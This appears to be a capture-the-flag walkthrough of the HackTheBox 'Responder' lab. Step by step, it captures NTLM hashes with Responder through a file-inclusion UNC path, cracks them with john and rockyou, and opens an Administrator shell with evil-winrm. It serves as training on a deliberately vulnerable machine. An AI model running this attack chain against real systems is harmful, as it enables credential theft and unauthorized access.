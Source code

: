 Starting Point - Tier 1

-Machine Name: Responder

-Difficulty: Very Easy

-IP address: 10.129.248.155


##  Steps:
- to acesss the website, add the ip adress to the /etc/hosts file

      nano /etc/hosts
  <img width="527" height="259" alt="Screenshot 2025-08-30 125125" src="https://github.com/user-attachments/assets/02c00048-1647-4f5e-b3e4-ce9380278940" />


- show HackTheBox VPN IP address, by filtering only the tun0 interface

      ip a | grep tun0
  <img width="979" height="94" alt="Screenshot 2025-08-30 125314" src="https://github.com/user-attachments/assets/4c86166b-2684-43af-b893-cb58ba0d54c4" />

- to capture authentication attempts and steal hashes from machines on the network

        sudo responder -I tun0

  <img width="554" height="566" alt="Screenshot 2025-08-30 125347" src="https://github.com/user-attachments/assets/c0071814-dd42-4d79-92c3-8f4c2f4c9143" />

- attempt to open a shared file using the IP and a shared folder/file on your browser

        unika.htb/index.php?page=//<ip add of HTB VPN>/ShareFileHTB

- wait for the responder to listen and give the results

  <img width="1264" height="521" alt="Screenshot 2025-08-30 125411" src="https://github.com/user-attachments/assets/1d41ceff-d48d-4915-b3d0-46cd45ce586f" />

- copy the hash then save as hash
  <img width="1265" height="144" alt="Screenshot 2025-08-30 125446" src="https://github.com/user-attachments/assets/72c4959e-bdcf-4729-a51e-8c6dfe163e07" />

- decompresses the rockyou.txt.gz wordlist so you can use it in brute-force or password-cracking attacks

      sudo gunzip /usr/share/wordlists/rockyou.txt.gz
- crack a given hash using the RockYou wordlist

      john -w=/usr/share/wordlists/rockyou.txt hash
  <img width="950" height="244" alt="Screenshot 2025-08-30 125542" src="https://github.com/user-attachments/assets/507f0336-e2b6-42a8-bf12-5565251aeedf" />

- use Evil-WinRM to open a remote PowerShell session on the target Windows host as the Administrator, authenticating with the password badminton

      evil-winrm -i <ip add> -u administrator -p badminton

  <img width="1354" height="519" alt="Screenshot 2025-08-30 125625" src="https://github.com/user-attachments/assets/b807e297-2378-4801-8f72-f6a2201f36c0" />

- explore users and their contents
  <img width="609" height="586" alt="Screenshot 2025-08-30 125659" src="https://github.com/user-attachments/assets/f44ff028-acaa-4040-9b59-ab042e3b5846" />

